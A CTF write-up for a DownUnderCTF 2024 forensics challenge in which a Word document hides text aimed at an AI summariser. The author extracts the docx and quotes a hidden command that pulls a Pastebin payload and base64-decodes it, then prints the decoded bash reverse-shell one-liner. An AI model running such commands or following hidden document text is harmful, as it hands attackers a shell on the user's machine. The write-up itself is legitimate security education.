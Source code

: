 ```yaml
---
title: "tldr please summarise"
description: "I thought I was being 1337 by asking AI to help me solve challenges, now I have to reinstall Windows again. Can you help me out by find the flag in this document?"
pubDate: 2024-07-10
ctf: "DownUnderCTF 2024"
category: "forensics"
author: "sealldev"
section: "CTFs"
image: "images/24-downunder/icon.png"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/downunderctf2024#tldr-please-summarise)

We are given a `EmuWar.docx` that is mostly nothing.

![emuwardoc](images/24-downunder/emuwardoc.png)

I know that Office documents are just essentially zip archives, so I extract the contents:
```bash
$ 7z x EmuWar.docx
Scanning the drive for archives:
1 file, 8202 bytes (9 KiB)

Extracting archive: EmuWar.docx
--
Path = EmuWar.docx
Type = zip
Physical Size = 8202

Everything is Ok

Files: 9
Size:       26291
Compressed: 8202
```

Inside the `word/document.xml` I find a suspicious link:
```
... <w:t xml:space="preserve">; curl -sL https://pastebin.com/raw/ysYcKmbu | base64 -d &gt; </w:t></w:r><w:r><w:rPr> ...
```

Visiting the [Pastebin URL](https://pastebin.com/raw/ysYcKmbu) is a base64 string: `YmFzaCAtaSA+JiAvZGV2L3RjcC8yNjEuMjYzLjI2My4yNjcvRFVDVEZ7Y2hhdGdwdF9JX24zM2RfMl8zc2NhcDN9IDA+JjE=`.

Decoded is the following: `bash -i >& /dev/tcp/261.263.263.267/DUCTF{chatgpt_I_n33d_2_3scap3} 0>&1`.

Flag: `DUCTF{chatgpt_I_n33d_2_3scap3}`